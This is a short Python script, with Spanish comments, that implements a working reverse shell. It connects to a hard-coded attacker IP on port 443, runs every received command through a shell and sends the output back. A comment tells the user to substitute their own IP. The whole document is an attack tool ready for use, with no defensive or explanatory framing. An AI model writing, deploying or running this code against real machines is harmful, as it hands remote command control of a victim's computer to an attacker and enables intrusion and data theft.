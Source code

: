 import socket
import subprocess

def reverse_shell(host, port):
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((host, port))
        s.send(b"Conexión establecida con la reverse shell!\n")
        while True:
            command = s.recv(1024).decode("utf-8")
            if command.lower() == "exit":
                break
            output = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
            s.send(output.stdout.read() + output.stderr.read())
        s.close()
    except Exception as e:
        print(f"Error: {e}")

if __name__ == "__main__":
    attacker_ip = "192.168.5.68"  # Reemplaza con tu dirección IP local
    attacker_port = 443  # Reemplaza con el puerto deseado (por ejemplo, 443)
    reverse_shell(attacker_ip, attacker_port)
